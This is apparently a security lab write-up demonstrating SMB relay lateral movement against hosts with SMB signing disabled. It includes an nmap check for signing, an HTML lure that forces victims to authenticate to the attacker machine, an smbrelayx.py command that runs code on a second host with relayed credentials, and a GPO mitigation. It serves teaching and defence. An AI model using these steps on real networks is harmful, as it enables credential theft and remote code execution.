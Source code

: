 # Lateral Movement via SMB Relaying

This lab looks at a lateral movement technique abusing SMB protocol if SMB signing is disabled. 

SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.

If SMB signing is disabled, howeverm packets can be intercepted/modified and/or relayed to another system, which is what this lab is about.

## Environment

* 10.0.0.5 - attacker running Kali linux and smb relaying tool
* 10.0.0.2 - victim1; their credentials will be relayed to victim2
* 10.0.0.6 - victim2; code runs on victim2 with victim1 credentials

{% hint style="warning" %}
Credentials from Victim1 must be for a local admin on Victim2 or be a member of Administrators/Domain Administrators group for this attack to work successfully.
{% endhint %}

Below is a simplified process of how this attack works:

`10.0.0.2` -authenticates to-&gt; `10.0.0.5` -relays to-&gt; `10.0.0.6` executes code with victim1\(10.0.0.2\) credentials

## Execution

One of the ways to check if SMB signing is `disabled` on an endpoint:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-31-10-45-27.png)

Since we know that victim2@10.0.0.6 has SMB signing disabled and is vulnerable to SMB relaying attack, let's create a simple HTML file that once opened will force the victim1 to authenticate to attacker's machine:

{% code-tabs %}
{% code-tabs-item title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

...at the same time, let's fire up SMBRelayx tool that will listen for incoming SMB authentication requests and will relay them to victim2@10.0.0.6 and will attempt to execute a command `ipconfig`on the end host:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
smbrelayx.py -h 10.0.0.6 -c "ipconfig"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below is an gif showing the technique in action - on the left - victim 1 opening the malicious html we crafted earlier that forces it to attempt to authenticate to the attacker system \(on the right\). Once the authentication attempt comes in, it gets relayed to victim2@10.0.0.6 and ipconfig gets executed:

![](../.gitbook/assets/peek-2018-12-30-22-31.gif)

A stop frame from the above gif that highlights that the code execution indeed happend on 10.0.0.6:

![](../.gitbook/assets/screenshot-from-2018-12-30-22-33-59.png)

## Mitigation

In order to mitigate this type of attack, the best way to do it is use GPOs if possible and set the policy **Microsoft network client: Digitally sign communications \(always\)** to `Enabled`:

![](../.gitbook/assets/screenshot-from-2018-12-31-10-36-45.png)

With the above change, trying to execute the same attack, we get `Signature is REQUIRED`:

![](../.gitbook/assets/screenshot-from-2018-12-30-22-36-01.png)

The same nmap scan we did earlier now shows that the message signing is required:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-31-11-05-59.png)

## References

{% embed url="https://ramnathshenoy.wordpress.com/2017/03/19/lateral-movement-with-smbrelayx-py/" %}

{% embed url="https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/" %}

{% embed url="https://nmap.org/nsedoc/scripts/smb-security-mode.html" %}



